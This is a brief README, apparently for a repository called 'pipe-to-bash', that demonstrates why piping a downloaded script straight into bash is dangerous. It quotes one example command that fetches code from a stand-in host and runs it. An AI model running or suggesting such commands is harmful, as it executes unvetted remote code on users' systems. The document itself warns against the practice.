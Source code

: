 # pipe-to-bash
Simple example showing why "curl/wget https://not-malicious.com/shady | bash" is bad
